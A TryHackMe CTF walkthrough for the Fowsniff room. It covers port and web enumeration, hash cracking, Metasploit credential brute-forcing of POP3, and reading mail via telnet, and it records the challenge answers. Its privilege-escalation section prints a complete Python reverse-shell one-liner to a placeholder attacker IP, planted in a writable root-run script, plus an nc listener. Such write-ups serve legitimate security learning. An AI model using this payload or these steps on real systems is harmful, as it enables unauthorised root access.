









---
tags:
  - tryhackme
  - challenge
  - easy
  - offensive
  - linux
  - hash-cracking
---

# Fowsniff CTF

**Platform:** TryHackMe  
**Type:** Challenge  
**Difficulty:** Easy  
**Link:** [Fowsniff CTF](https://tryhackme.com/room/ctf)

## Description
"Hack this machine and get the flag. There are lots of hints along the way and is perfect for beginners!"

## Enumeration
I generated a list of open ports for more comprehensive enumeration with the following:  
`ports=$(nmap -p- --min-rate=1000 TARGET_IP_ADDRESS | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)`  
This revealed the following open ports:  

* 22
* 80
* 110
* 143

I ran a full `nmap` scan to query the services for version information, as well as querying the target system for OS information with `nmap -p$ports -A -T4 TARGET_IP_ADDRESS`, which revealed the following:  
  
I used my go-to `ffuf` command to enumerate the website:  
`ffuf -u http://TARGET_IP_ADDRESS/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c`  
  
There was a `robots.txt` file but the contents didn't reveal any hidden endpoints. There was no `sitemap.xml` file, and nothing interesting in the source code. The site contents itself reveal that the company has experienced a data breach, and that their Twitter (now X) account has been compromised.  
With no credentials, enumerating the POP3 and IMAP services on 110 and 143, respectively, is off the table, and with no version information, looking for vulnerabilities to exploit didn't feel like a good place to start.
There were no interesting leads in the `searchsploit` results for the SSH or Apache versions.

## Foothold
Using the information found on the web page, I navigated to the Twitter account referenced. There were two posts of interest there - both with pastebin links to alleged data dumps that the threat actor had taken from the fictional company. Unfortunately, both posts have now been removed as "potentially harmful". There was one hash in one of the posts but `john` wouldn't crack it, and there were no results for it on CrackStation. Looking at the list of "questions" in the challenge, it appeared that the information I needed was likely in one of those two deleted pastebin posts, so I had little choice but to turn to another [write up](https://hookerfeline54.medium.com/fowsniff-ctf-walkthrough-detailed-for-beginners-78bd6f54c68a). Sure enough, there should have been a hash dump in one of those pastebin links for hash cracking. I managed to copy the hashes from the write up, and could pick the challenge up from there. I used [CrackStation](https://crackstation.net/) to crack the hashes en masse, and cracked all but one of them:  
  
Following the guide in the challenge, I used Metasploit to try the credential combinations found in the pastebin post. After finding an enumeration module in Metasploit and setting the options as required (I had to force clear the USER_FILE and PASS_FILE options, and used a list with the username:password combinations with the USERPASS_FILE) and got a hit with one of them:  
  
??? success "What was seina's password to the email service?"
	scoobydoo2  
Using `telnet`, I connected to the POP3 service as per the challenge instructions as the `seina` user and with the discovered password, retrieved a list of emails and then used the `RETR` command to get the contents of each of the messages I found:  
  
The first of the two messages contained the temporary password that the next question in the challenge was looking for:  
  
??? success "Looking through her emails, what was a temporary password set for her?"
	S1ck3nBluff+secureshell
Following the challenge guide, I went back to the second of the emails sent to my compromised user to obtain the relevant username:  
  
With a username and password, I logged into the SSH service on the target machine.

## Privilege Escalation
The challenge description from this point onwards is fairly explicit about what is required to escalate privileges, so rather than do a step by step write up at this point, I will simply use the question prompts (none of which require an answer), include what commands I used and include the actual answer to the question.  
**Question**: "Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?"  
**Answer**:  
  
**Question**: "Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?"  
**Answer**:  
`nano /opt/cube/cube.sh`  
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attackerIpAddress>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`  

From here, all that's required is to set up a listener on the attacking machine (`nc -lvnp 1234`) and relogin to the target machine with the SSH credentials from earlier. Root access obtained:  
  

**Tools Used**  
`Metasploit` `telnet`

**Date completed:** 06/04/26  
**Date published:** 06/04/26